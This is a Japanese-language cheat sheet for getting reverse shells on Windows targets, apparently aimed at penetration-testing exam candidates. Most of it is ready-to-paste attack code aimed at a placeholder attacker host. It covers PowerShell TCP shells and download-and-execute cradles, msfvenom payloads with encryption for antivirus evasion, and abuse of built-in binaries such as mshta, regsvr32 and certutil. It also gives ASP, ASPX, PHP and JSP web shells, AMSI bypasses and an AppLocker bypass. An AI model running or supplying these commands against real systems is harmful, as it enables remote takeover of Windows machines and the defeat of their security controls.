

## TL;DR

WindowsターゲットでRCEを確立した後、次のステップは**インタラクティブなリバースシェル**へのアップグレードである。本チートシートでは、レガシーWin7 x86からモダンWin11 x64まで、Windowsにおける実用的なリバースシェル手法をすべて提供する。手法・アーキテクチャ・OS互換性別に整理。

**クイック選択ガイド：**

| 状況 | 推奨手法 |
|---|---|
| PowerShell利用可能（Win7 SP1+） | PowerShell TCP ワンライナー |
| PowerShellブロック / 制約あり | `certutil` + コンパイル済み`nc.exe` |
| Webシェル / ブラインドRCEのみ | `mshta` or `rundll32` ワンライナー |
| アウトバウンドTCP不可 | HTTP/S経由のPowerShellリバースシェル |
| AV/EDRアクティブ | msfvenom暗号化ペイロード or カスタムC# |
| 最新Win10/11 + Defender | AMSIバイパス + 難読化PowerShell |

---

## リスナーのセットアップ（攻撃者側）

リバースシェルをトリガーする**前に**必ずリスナーを起動する。

```bash
# 基本的なnetcatリスナー
nc -lvnp 4444

# rlwrapでreadlineサポート（矢印キー、履歴）
rlwrap -cAr nc -lvnp 4444

# Metasploit multi/handler（msfvenomペイロード用）
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/shell_reverse_tcp; set LHOST <KALI_IP>; set LPORT 4444; run"

# Metasploit meterpreterハンドラー
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST <KALI_IP>; set LPORT 4444; run"

# socat（暗号化TLSリスナー）
socat -d -d OPENSSL-LISTEN:4444,cert=shell.pem,verify=0,fork STDOUT
```

---

## OS・ツール互換性マトリックス

### Windowsバージョン別の組み込みツール

| ツール / 機能 | Win7 SP1 | Win8/8.1 | Win10 (1507–1809) | Win10 (1903+) | Win11 | Arch |
|---|---|---|---|---|---|---|
| `cmd.exe` | 可 | 可 | 可 | 可 | 可 | 両方 |
| PowerShell 2.0 | 可 | 可 | 非推奨 | 非推奨 | 非推奨 | 両方 |
| PowerShell 5.1 | 更新要 | 可 | 可 | 可 | 可 | 両方 |
| `certutil.exe` | 可 | 可 | 可 | 可 | 可 | 両方 |
| `bitsadmin.exe` | 可 | 可 | 可 | 可 | 可 | 両方 |
| `mshta.exe` | 可 | 可 | 可 | 可 | 可 | 両方 |
| `rundll32.exe` | 可 | 可 | 可 | 可 | 可 | 両方 |
| `regsvr32.exe` | 可 | 可 | 可 | 可 | 可 | 両方 |
| `curl.exe` | 不可 | 不可 | 不可 | 可 | 可 | 両方 |
| `ssh.exe`（OpenSSH） | 不可 | 不可 | 1803+ | 可 | 可 | x64 |
| WDAC / AMSI | 不可 | 不可 | 可 | 可 | 可 | 両方 |
| Constrained Language Mode | 不可 | 稀 | 一般的 | 一般的 | 一般的 | 両方 |

> **非推奨** = 廃止予定だが依然として存在。PowerShell 2.0は`Disable-WindowsOptionalFeature`で削除可能。

### アーキテクチャに関する注意

| アーキテクチャ | System32パス | PowerShellパス |
|---|---|---|
| x86（32ビットOS） | `C:\Windows\System32\` | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` |
| x64（64ビットOS、64ビットプロセス） | `C:\Windows\System32\` | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` |
| x64（64ビットOS、WoW64経由の32ビットプロセス） | `C:\Windows\SysWOW64\` | `C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe` |
| x64（32ビットから64ビットにアクセス） | `C:\Windows\Sysnative\` | `C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe` |

> **OSCPメモ：** 64ビットOSで32ビットのWebシェルを持っている場合、64ビットバイナリにアクセスするには`C:\Windows\Sysnative\`を使用する。64ビットペイロードの実行や実際の`System32`へのアクセスに必須。

---

## 1. PowerShellリバースシェル

### 1a. 基本TCPリバースシェル（ワンライナー）

**互換性：** Win7 SP1+（PS 2.0+）、x86/x64

```powershell
powershell -nop -ep bypass -c "$c=New-Object System.Net.Sockets.TCPClient('<KALI_IP>',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1|Out-String);$t=$r+'PS '+(pwd).Path+'> ';$m=([text.encoding]::ASCII).GetBytes($t);$s.Write($m,0,$m.Length);$s.Flush()};$c.Close()"
```

**短縮版（コマンド長制限がある場合）：**

```powershell
powershell -nop -c "$c=New-Object Net.Sockets.TCPClient('<KALI_IP>',4444);$s=$c.GetStream();$b=New-Object byte[] 65535;while(($i=$s.Read($b,0,$b.Length))-ne 0){$d=([text.encoding]::ASCII).GetString($b,0,$i);$r=(iex $d 2>&1|Out-String);$s.Write(([text.encoding]::ASCII).GetBytes($r),0,$r.Length)}"
```

### 1b. PowerShell Base64エンコード（簡易フィルタ回避）

**互換性：** Win7 SP1+、x86/x64

攻撃者マシンで生成：

```bash
# Base64エンコードされたリバースシェルコマンドを生成
REVERSE_SHELL='$c=New-Object System.Net.Sockets.TCPClient("<KALI_IP>",4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object System.Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1|Out-String);$t=$r+"PS "+(pwd).Path+"> ";$m=([text.encoding]::ASCII).GetBytes($t);$s.Write($m,0,$m.Length);$s.Flush()};$c.Close()'

echo -n "$REVERSE_SHELL" | iconv -t UTF-16LE | base64 -w 0
```

ターゲットで実行：

```cmd
powershell -nop -ep bypass -enc <BASE64_STRING>
```

### 1c. PowerShell ダウンロード実行（クレードル）

**互換性：** Win7 SP1+、x86/x64

攻撃者側で`shell.ps1`をホスト：

```powershell
# shell.ps1（攻撃者のWebサーバー上）
$c = New-Object System.Net.Sockets.TCPClient('<KALI_IP>',4444)
$s = $c.GetStream()
[byte[]]$b = 0..65535|%{0}
while(($i = $s.Read($b, 0, $b.Length)) -ne 0){
    $d = (New-Object System.Text.ASCIIEncoding).GetString($b, 0, $i)
    $r = (iex $d 2>&1 | Out-String)
    $t = $r + 'PS ' + (pwd).Path + '> '
    $m = ([text.encoding]::ASCII).GetBytes($t)
    $s.Write($m, 0, $m.Length)
    $s.Flush()
}
$c.Close()
```

ダウンロードクレードル（ターゲットで実行）：

```powershell
# 方法1：IEX + WebClient（最も一般的）
powershell -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')"

# 方法2：IEX + Invoke-WebRequest（PS 3.0+ / Win8+）
powershell -nop -ep bypass -c "IEX(Invoke-WebRequest -Uri 'http://<KALI_IP>/shell.ps1' -UseBasicParsing).Content"

# 方法3：IEX + curlエイリアス（Win10 1903+ネイティブcurl）
powershell -nop -ep bypass -c "IEX(curl http://<KALI_IP>/shell.ps1 -UseBasicParsing).Content"
```

### 1d. PowerCat経由

**互換性：** Win7 SP1+、x86/x64

```powershell
# powercatをダウンロードして実行
powershell -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/powercat.ps1'); powercat -c <KALI_IP> -p 4444 -e cmd.exe"
```

### 1e. Nishang Invoke-PowerShellTcp

**互換性：** Win7 SP1+、x86/x64

```powershell
powershell -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress <KALI_IP> -Port 4444"
```

### 1f. ConPtyシェル（完全インタラクティブ）

**互換性：** Win10 1809+、x64

適切なTTYサポートによる完全インタラクティブシェルを提供：

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/Invoke-ConPtyShell.ps1')
Invoke-ConPtyShell -RemoteIp <KALI_IP> -RemotePort 4444 -Rows 24 -Cols 80
```

リスナー（攻撃者側 — 適切なサイズ調整に`stty`を使用）：

```bash
stty raw -echo; (stty size; cat) | nc -lvnp 4444
```

---

## 2. コンパイル済みバイナリ リバースシェル

### 2a. Netcat（nc.exe / ncat.exe）

**互換性：** 全Windowsバージョン、x86/x64（コンパイル済みバイナリに依存）

```cmd
:: 従来のnetcat
nc.exe <KALI_IP> 4444 -e cmd.exe
nc.exe <KALI_IP> 4444 -e powershell.exe

:: ncat（Nmapのnetcat — SSL対応）
ncat.exe <KALI_IP> 4444 -e cmd.exe --ssl
```

**nc.exeをターゲットに転送：**

```cmd
:: certutil（Win7+）
certutil -urlcache -split -f http://<KALI_IP>/nc.exe C:\Temp\nc.exe

:: bitsadmin（Win7+）
bitsadmin /transfer job http://<KALI_IP>/nc.exe C:\Temp\nc.exe

:: PowerShell（Win7 SP1+）
powershell -c "(New-Object Net.WebClient).DownloadFile('http://<KALI_IP>/nc.exe','C:\Temp\nc.exe')"

:: curl（Win10 1903+）
curl http://<KALI_IP>/nc.exe -o C:\Temp\nc.exe

:: SMB共有（ダウンロード不要）
\\<KALI_IP>\share\nc.exe <KALI_IP> 4444 -e cmd.exe
```

**Kali上のコンパイル済みnc.exeの場所：**

```bash
# x86
locate nc.exe | grep win
/usr/share/windows-resources/binaries/nc.exe          # x86（32ビット）

# x64 — コンパイルまたはnmapのncatを使用
apt install ncat
```

### 2b. msfvenomペイロード

**アーキテクチャ固有のペイロードを生成する最も信頼性の高い方法。**

#### Staged vs Stageless

| タイプ | フラグ | サイズ | 互換性 | 用途 |
|---|---|---|---|---|
| Staged | `shell/reverse_tcp` | 約3 KB | Metasploitハンドラー必須 | ペイロードが小さい、バッファ制限時に有効 |
| Stageless | `shell_reverse_tcp` | 約70 KB | `nc`リスナーで動作 | 大きいが自己完結型 |

#### x86（32ビット）ペイロード

```bash
# cmd.exeリバースシェル（stageless）— ncリスナーで動作
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f exe -o shell32.exe

# cmd.exeリバースシェル（staged）— Metasploitハンドラー必須
msfvenom -p windows/shell/reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f exe -o shell32_staged.exe

# meterpreter（staged）
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f exe -o met32.exe

# DLLペイロード（DLLインジェクション / ハイジャック用）
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f dll -o payload32.dll

# MSIペイロード（AlwaysInstallElevated用）
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f msi -o shell32.msi

# HTAペイロード
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f hta-psh -o shell.hta

# PowerShellコマンド
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f psh-cmd -o shell.bat

# ASP Webシェル
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f asp -o shell.asp

# ASPX Webシェル
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f aspx -o shell.aspx

# WAR（Tomcat）
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f war -o shell.war
```

#### x64（64ビット）ペイロード

```bash
# cmd.exeリバースシェル（stageless）— ncリスナーで動作
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f exe -o shell64.exe

# cmd.exeリバースシェル（staged）— Metasploitハンドラー必須
msfvenom -p windows/x64/shell/reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f exe -o shell64_staged.exe

# meterpreter（staged）
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f exe -o met64.exe

# DLLペイロード
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f dll -o payload64.dll

# MSIペイロード
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f msi -o shell64.msi

# PowerShellスクリプト（Base64エンコード）
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f psh -o shell64.ps1

# EXE-Service（サービスエクスプロイト用 — 適切なServiceMain）
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f exe-service -o svc64.exe

# 生シェルコード（インジェクション用）
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f raw -o sc64.bin
```

#### エンコーダー / 回避オプション

```bash
# x86 shikata_ga_naiエンコーダー（基本的なAV回避）
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o encoded32.exe

# x64 XORエンコーダー
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -e x64/xor_dynamic -f exe -o encoded64.exe

# ペイロード暗号化（エンコードより効果的）
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI_IP> LPORT=4444 --encrypt aes256 --encrypt-key <KEY> -f exe -o encrypted64.exe
```

---

## 3. Windowsネイティブバイナリの悪用（LOLBins）

**組み込みWindows バイナリ**を使用 — 初期トリガーのファイル転送不要。

### 3a. mshta.exe（Microsoft HTMLアプリケーションホスト）

**互換性：** Win7+、x86/x64

```cmd
:: ワンライナー — HTAが攻撃者からペイロードをダウンロードして実行
mshta http://<KALI_IP>/shell.hta

:: インラインVBScriptリバースシェル
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -nop -ep bypass -c """"IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')"""" "", 0:close")
```

**HTAペイロードのホスト（攻撃者側）：**

```bash
# msfvenomで生成
msfvenom -p windows/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f hta-psh -o shell.hta

# 配信
python3 -m http.server 80
```

### 3b. rundll32.exe

**互換性：** Win7+、x86/x64

```cmd
:: rundll32経由でJavaScriptを実行
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";document.write();h=new%20ActiveXObject("WScript.Shell").Run("powershell -nop -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')")

:: SMB共有からDLLをロード
rundll32.exe \\<KALI_IP>\share\payload.dll,EntryPoint
```

### 3c. regsvr32.exe（Squiblydoo）

**互換性：** Win7+、x86/x64 — **AppLockerデフォルトルールをバイパス**

```cmd
:: リモートサーバーからSCTファイルをダウンロードして実行
regsvr32 /s /n /u /i:http://<KALI_IP>/shell.sct scrobj.dll
```

**SCTペイロード（攻撃者上のshell.sct）：**

```xml
<?XML version="1.0"?>
<scriptlet>
<registration
    description="Pentest"
    progid="Pentest"
    version="1.00"
    classid="{AAAA-BBBB-CCCC-DDDD}"
    remotable="true">
</registration>
<script language="JScript">
<![CDATA[
    var r = new ActiveXObject("WScript.Shell").Run("powershell -nop -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')");
]]>
</script>
</scriptlet>
```

### 3d. certutil.exe（ダウンロード + デコード）

**互換性：** Win7+、x86/x64

```cmd
:: ペイロードをダウンロード
certutil -urlcache -split -f http://<KALI_IP>/shell.exe C:\Temp\shell.exe

:: 実行
C:\Temp\shell.exe

:: 代替：Base64ペイロードをデコード
certutil -decode encoded.txt C:\Temp\shell.exe

:: 複合：ダウンロード → デコード → 実行
certutil -urlcache -split -f http://<KALI_IP>/shell.b64 C:\Temp\shell.b64 && certutil -decode C:\Temp\shell.b64 C:\Temp\shell.exe && C:\Temp\shell.exe
```

### 3e. bitsadmin.exe

**互換性：** Win7+、x86/x64

```cmd
:: ファイルダウンロード
bitsadmin /transfer job /download /priority high http://<KALI_IP>/shell.exe C:\Temp\shell.exe

:: 実行
C:\Temp\shell.exe
```

### 3f. cscript / wscript（VBS/JS）

**互換性：** Win7+、x86/x64

**VBScriptリバースシェル（shell.vbs）：**

```vbscript
Set objShell = CreateObject("WScript.Shell")
objShell.Run "powershell -nop -ep bypass -c ""IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')""", 0, False
```

```cmd
cscript C:\Temp\shell.vbs
wscript C:\Temp\shell.vbs
```

**JScriptリバースシェル（shell.js）：**

```javascript
var shell = new ActiveXObject("WScript.Shell");
shell.Run("powershell -nop -ep bypass -c \"IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')\"", 0, false);
```

```cmd
cscript C:\Temp\shell.js
wscript C:\Temp\shell.js
```

### 3g. MSIEXEC

**互換性：** Win7+、x86/x64

```cmd
:: リモートURLからMSIを実行
msiexec /quiet /qn /i http://<KALI_IP>/shell.msi

:: ローカルパスからMSIを実行
msiexec /quiet /qn /i C:\Temp\shell.msi
```

---

## 4. Webベースリバースシェル

### 4a. ASP / ASPX（IIS）

**ASP（Classic — x86）：**

```asp
<%
Set objShell = Server.CreateObject("WScript.Shell")
Set cmd = objShell.Exec("cmd /c powershell -nop -ep bypass -c ""IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')""")
%>
```

**ASPX（.NET — x86/x64）：**

```aspx
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<%
Process p = new Process();
p.StartInfo.FileName = "cmd.exe";
p.StartInfo.Arguments = "/c powershell -nop -ep bypass -c \"IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')\"";
p.StartInfo.UseShellExecute = false;
p.Start();
%>
```

### 4b. PHP（XAMPP / カスタム）

```php
<?php system("powershell -nop -ep bypass -c \"IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')\""); ?>
```

### 4c. JSP（Tomcat）

```jsp
<%
Runtime rt = Runtime.getRuntime();
Process p = rt.exec("cmd /c powershell -nop -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')");
%>
```

---

## 5. SSHリバーストンネル（Win10 1803+）

**互換性：** Win10 1803+、x64（OpenSSHクライアント組み込み）

```cmd
:: リバースSSHトンネル — 攻撃者のポート4444を開き、ターゲットのcmdに転送
ssh -R 4444:127.0.0.1:445 attacker@<KALI_IP>

:: サービスを公開するリモートポートフォワード
ssh -N -R 9999:127.0.0.1:3389 attacker@<KALI_IP>
```

---

## 6. AMSIバイパス + リバースシェル（Win10/11）

**AMSI（Antimalware Scan Interface）**が有効なモダンWindowsでは、PowerShellコマンドは実行前にスキャンされる。まずAMSIをバイパスし、その後リバースシェルを実行する。

### 一般的なAMSIバイパス

```powershell
# リフレクションバイパス（頻繁にパッチ適用 — 必要に応じて難読化）
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

# 難読化バリアント
$a=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUtils');$f=$a.GetField('am'+'siInitFailed','NonPublic,Static');$f.SetValue($null,$true)

# PowerShell 2.0ダウングレード（AMSIを完全にバイパス — PS 2.0がまだインストールされている場合）
powershell -version 2 -c "IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')"
```

### 複合：AMSIバイパス + リバースシェル

```powershell
powershell -nop -ep bypass -c "$a=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUtils');$f=$a.GetField('am'+'siInitFailed','NonPublic,Static');$f.SetValue($null,$true);IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')"
```

---

## 7. WoW64 — 32ビットプロセスから64ビットシェルを実行

64ビットOSで32ビットWebアプリケーションをエクスプロイトする場合、WoW64（32ビット）プロセスで実行されている可能性がある。ネイティブ64ビットシェルを取得するには：

```cmd
:: 32ビットプロセスから、Sysnative経由で64ビットPowerShellにアクセス
C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')"

:: 32ビットプロセスから、64ビットcmd.exeを実行
C:\Windows\Sysnative\cmd.exe /c C:\Temp\shell64.exe

:: 32ビットプロセスから、64ビットnc.exeを実行
C:\Windows\Sysnative\cmd.exe /c C:\Temp\nc64.exe <KALI_IP> 4444 -e cmd.exe
```

### アーキテクチャの検出

```cmd
:: 現在のプロセスアーキテクチャを確認
echo %PROCESSOR_ARCHITECTURE%
:: AMD64 = 64ビットプロセス
:: x86   = 32ビットプロセス（64ビットOSではWoW64の可能性）

:: OSアーキテクチャを確認
wmic os get osarchitecture
:: 64ビット
```

```powershell
# PowerShell — WoW64で実行中か確認
[Environment]::Is64BitProcess    # True = 64ビット、False = 32ビット（WoW64）
[Environment]::Is64BitOperatingSystem  # True = 64ビットOS
```

---

## 8. シェルのアップグレードと安定化

基本的なリバースシェルを取得した後、使いやすさを向上させるためにアップグレードする。

### cmd.exe → PowerShell

```cmd
powershell -nop -ep bypass
```

### 基本シェル → インタラクティブシェル（rlwrap）

```bash
# 攻撃者側（シェルをキャッチする前に）
rlwrap -cAr nc -lvnp 4444
```

### ConPty完全インタラクティブシェル（Win10 1809+）

```powershell
# ターゲット側（初期シェル取得後）
IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/Invoke-ConPtyShell.ps1')
Invoke-ConPtyShell -RemoteIp <KALI_IP> -RemotePort 4445 -Rows 24 -Cols 80
```

```bash
# 攻撃者側
stty raw -echo; (stty size; cat) | nc -lvnp 4445
```

---

## ペイロード互換性マトリックス

### OS・アーキテクチャ別 msfvenomペイロード

| OS | Arch | Stagelessペイロード | Stagedペイロード |
|---|---|---|---|
| Win7 SP1 | x86 | `windows/shell_reverse_tcp` | `windows/shell/reverse_tcp` |
| Win7 SP1 | x64 | `windows/x64/shell_reverse_tcp` | `windows/x64/shell/reverse_tcp` |
| Win8/8.1 | x86 | `windows/shell_reverse_tcp` | `windows/shell/reverse_tcp` |
| Win8/8.1 | x64 | `windows/x64/shell_reverse_tcp` | `windows/x64/shell/reverse_tcp` |
| Win10 | x86 | `windows/shell_reverse_tcp` | `windows/shell/reverse_tcp` |
| Win10 | x64 | `windows/x64/shell_reverse_tcp` | `windows/x64/shell/reverse_tcp` |
| Win11 | x64 | `windows/x64/shell_reverse_tcp` | `windows/x64/shell/reverse_tcp` |
| Server 2008 R2 | x64 | `windows/x64/shell_reverse_tcp` | `windows/x64/shell/reverse_tcp` |
| Server 2012/R2 | x64 | `windows/x64/shell_reverse_tcp` | `windows/x64/shell/reverse_tcp` |
| Server 2016 | x64 | `windows/x64/shell_reverse_tcp` | `windows/x64/shell/reverse_tcp` |
| Server 2019 | x64 | `windows/x64/shell_reverse_tcp` | `windows/x64/shell/reverse_tcp` |
| Server 2022 | x64 | `windows/x64/shell_reverse_tcp` | `windows/x64/shell/reverse_tcp` |

### ユースケース別フォーマット

| シナリオ | msfvenom `-f`フォーマット | 出力 |
|---|---|---|
| スタンドアロン実行ファイル | `exe` | `.exe`ファイル |
| サービスエクスプロイト（適切なServiceMain） | `exe-service` | `.exe`ファイル |
| DLLインジェクション / ハイジャック | `dll` | `.dll`ファイル |
| AlwaysInstallElevated | `msi` | `.msi`ファイル |
| IIS Classic ASP | `asp` | `.asp`ファイル |
| IIS .NET | `aspx` | `.aspx`ファイル |
| Tomcat | `war` | `.war`ファイル |
| HTA（mshta.exe） | `hta-psh` | `.hta`ファイル |
| PowerShellスクリプト | `psh` | `.ps1`ファイル |
| PowerShellワンライナー（cmd） | `psh-cmd` | `.bat`ファイル |
| 生シェルコード | `raw` | `.bin`ファイル |
| Cシェルコード配列 | `c` | Cソース |
| C#シェルコード配列 | `csharp` | C#ソース |
| Pythonシェルコード | `python` | Pythonソース |

---

## 判断フローチャート



---

## クイックリファレンス — コピペ用コマンド

### 攻撃者側セットアップ

```bash
# 1. ペイロードをホストするWebサーバーを起動
python3 -m http.server 80

# 2. SMBサーバーを起動（オプション）
impacket-smbserver share . -smb2support

# 3. リスナーを起動
rlwrap -cAr nc -lvnp 4444
```

### ターゲット側実行（いずれかを選択）

```cmd
:: PowerShellワンライナー（Win7+）
powershell -nop -ep bypass -c "$c=New-Object Net.Sockets.TCPClient('<KALI_IP>',4444);$s=$c.GetStream();$b=New-Object byte[] 65535;while(($i=$s.Read($b,0,$b.Length))-ne 0){$d=([text.encoding]::ASCII).GetString($b,0,$i);$r=(iex $d 2>&1|Out-String);$s.Write(([text.encoding]::ASCII).GetBytes($r),0,$r.Length)}"

:: PowerShellダウンロードクレードル（Win7+）
powershell -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')"

:: certutil + nc.exe（Win7+、全アーキテクチャ）
certutil -urlcache -split -f http://<KALI_IP>/nc.exe C:\Temp\nc.exe && C:\Temp\nc.exe <KALI_IP> 4444 -e cmd.exe

:: mshta（Win7+、ファイル書込なし）
mshta http://<KALI_IP>/shell.hta

:: regsvr32 Squiblydoo（Win7+、AppLockerバイパス）
regsvr32 /s /n /u /i:http://<KALI_IP>/shell.sct scrobj.dll

:: msiexec（Win7+、リモートMSI）
msiexec /quiet /qn /i http://<KALI_IP>/shell.msi

:: 32ビットプロセスから64ビット（Sysnative）
C:\Windows\Sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://<KALI_IP>/shell.ps1')"
```

---

## 参考文献

- Nishang: [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)
- PowerCat: [https://github.com/besimorhino/powercat](https://github.com/besimorhino/powercat)
- ConPtyShell: [https://github.com/antonioCoco/ConPtyShell](https://github.com/antonioCoco/ConPtyShell)
- PayloadsAllTheThings — Reverse Shell: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- LOLBASプロジェクト: [https://lolbas-project.github.io/](https://lolbas-project.github.io/)
- RevShells Generator: [https://www.revshells.com/](https://www.revshells.com/)
- MITRE ATT&CK T1059 — Command and Scripting Interpreter: [https://attack.mitre.org/techniques/T1059/](https://attack.mitre.org/techniques/T1059/)
- MITRE ATT&CK T1218 — System Binary Proxy Execution: [https://attack.mitre.org/techniques/T1218/](https://attack.mitre.org/techniques/T1218/)
